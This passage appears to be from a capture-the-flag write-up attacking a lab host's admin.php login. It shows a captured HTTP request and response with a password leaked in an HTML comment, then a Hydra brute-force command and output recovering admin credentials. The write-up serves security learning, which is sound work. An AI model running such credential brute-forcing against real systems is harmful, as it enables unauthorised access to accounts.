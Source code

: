 Seriously? The password is embedded as a comment?

```
<REQUEST>
POST /admin.php HTTP/1.1
Host: 10.10.10.27
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.27/admin.php
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
user=skoupidotenekes&pass=admin
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Sun, 24 Dec 2017 07:34:17 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 467
Connection: close
Content-Type: text/html; charset=UTF-8
<html><body>
<form method="post">
Password: <input type="text" name="user"><br>
Username: <input type="password" name="pass">
  <input type="submit" value="Log in to the powerful administrator page">
<!-- password is:skoupidotenekes-->
</form> 
</body></html>
GET OUT OF HERE
</RESPONSE>
```

Well, we're going to have to figure out what the username it is expecting.

##### HYDRA

```
$ hydra 10.10.10.27 -s 80 http-form-post "/:user=^USER^&pass=^PASS^:GET OUT OF HERE" -p skoupidotenekes -l admin
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-24 02:42:15
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-post-form://10.10.10.27:80//:user=^USER^&pass=^PASS^:GET OUT OF HERE
[80][http-post-form] host: 10.10.10.27   login: admin   password: skoupidotenekes
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-12-24 02:42:17
```
